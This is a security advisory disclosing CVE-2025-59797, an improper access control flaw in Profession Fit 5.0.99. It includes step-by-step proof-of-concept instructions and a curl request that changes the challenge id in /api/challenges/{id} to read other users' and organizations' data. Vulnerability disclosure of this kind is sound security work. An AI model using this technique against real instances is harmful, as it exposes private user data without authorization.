 # CVE-2025-59797
Profession Fit 5.0.99 Build 44910 allows authorization bypass via a direct request for /api/challenges/{id} and also URLs for eversports, the user-management page, and the plane page.

Improper Access control often presents a serious security vulnerability as they can allow attackers to access resources or perform actions, they should not be able to. It was noted that the application  function such as eversports, challenges, user-management page and plane page are vulnerable to improper access control vulnerability allowing attacker to view other users/organizations information.

# Affected Product & Version
Profession Fit - 5.0.99 (Build 44910)

Reference: https://www.profession-fit.de/

# PoC

1. Start Interception in Burp suite or other proxy tools 
2. Login to the application as a normal user and go to challenges
3. if any challenges is created by your admin you will notice an GET request made to the endpoint /api/challenges/{id}
4. Send this request to repeater and change the id here with any value to see other challenge details for example 800, 948 etc.

cURL command
````
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: INSTANCE-URL' -H $'X-Device-Timezone-Offset: +02:00' -H $'Sec-Ch-Ua-Platform: \"Linux\"' -H $'Accept-Language: en' -H $'Sec-Ch-Ua: \"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'X-Device-Timezone: Europe/Berlin' -H $'X-App-Version: Profession Fit 5.0.98' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://staging.profession-fit.de/webapp/challenge/{id’} -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=1, i' \
    -b $'_login_locale=en; PHPSESSID=COOKIE’ VALUE \
    $'https://INSTANCE-URL/api/challenges/{id}’
````

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.

